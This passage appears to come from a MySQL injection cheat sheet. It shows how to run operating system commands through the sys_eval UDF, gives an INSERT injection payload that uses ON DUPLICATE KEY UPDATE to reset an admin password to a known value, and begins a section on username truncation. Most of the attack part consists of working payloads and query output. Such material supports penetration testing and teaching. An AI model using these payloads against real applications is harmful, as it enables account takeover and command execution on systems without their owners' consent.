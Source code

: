 ### COMMAND - UDF Library

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]

mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MYSQL INSERT

`ON DUPLICATE KEY UPDATE` keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

Inject using payload:

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```

The query would look like this:

```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

This query will insert a row for the user "attacker_dummy@example.com". It will also insert a row for the user "admin@example.com".

Because this row already exists, the `ON DUPLICATE KEY UPDATE` keyword tells MySQL to update the `password` column of the already existing row to "P@ssw0rd". After this, we can simply authenticate with "admin@example.com" and the password "P@ssw0rd".


## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.
